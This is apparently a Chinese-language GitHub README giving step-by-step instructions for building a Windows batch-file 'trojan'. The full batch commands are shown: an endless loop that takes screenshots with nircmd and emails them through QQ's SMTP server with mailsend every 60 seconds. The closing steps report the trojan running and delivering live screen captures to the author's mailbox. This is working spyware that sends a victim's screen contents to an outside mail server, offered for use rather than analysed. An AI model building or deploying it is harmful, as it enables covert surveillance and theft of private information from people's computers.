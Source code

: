 #操作流程

1.在桌面上创建新文本文件，重命名为first.bat

![chongmingming](img/新建文本文件并修改名字.png)

2.在qq邮箱中设置>账户>开启IMAP/SMTP服务,获取授权码

![kaiqi](img/开启按钮.png)

![huoqu](img/获取授权码.png)

3.右键单击first.bat文件，点击编辑,之后按照脚本提示编辑内容
（1）先关闭批处理的回显：

```batch
@echo off
```

（2）然后设置 `PATH` 环境变量为当前目录下的 `bin` 子目录，此处应该使用 `PATH` 命令。用法为:

```batch
PATH path
```

（3）同时要注意使用 `%CD%` 来获取当前目录。

然后进入循环，这里使用 `goto` 来实现永远循环。

```batch
:loop

REM do something

goto loop
```

（4）使用 `bin` 目录下的 `nircmd` 来实现截屏：

```batch
nircmd savescreenshot 1.png
```

![bianji](img/复制命令1到first.png)

（5）使用 `bin` 目录下的 `mailsend` 来实现邮件发送，以 QQ 邮箱为例：

```batch
mailsend -to <dest_mail_address> -from <src_mail_address> -ssl -port 465 -auth-login -smtp smtp.qq.com -sub "Trojan" -user <username> -pass "<password>" -attach <image_path>
```

（6）请将上面的命令中 `<>` 包裹起来的内容替换为你自己的内容然后去掉尖括号，其中 `dest_mail_address` 应该替换为收件邮箱地址，`src_mail_address` 替换为发件邮箱地址，`username` 替换为 QQ 邮箱用户名， `password` 替换为 QQ 邮箱的一次性客户端密码，`image_path` 替换成图片文件名，比如 `1.png` 。

（7）使用 `bin` 目录下的 `nircmd` 来实现等待一段时间：

```batch
nircmd wait 60000
```

![bianji2](img/编辑内容.png)

4.在命令提示符中访问first.bat

![fangwen](img/在cmd中.png)

5.木马运行成功，每隔60s会在邮箱接收到一个实时屏幕截图

![chenggong](img/出现1.png)

![cheng](img/发送成功.png)

![cheng2](img/又收到.png)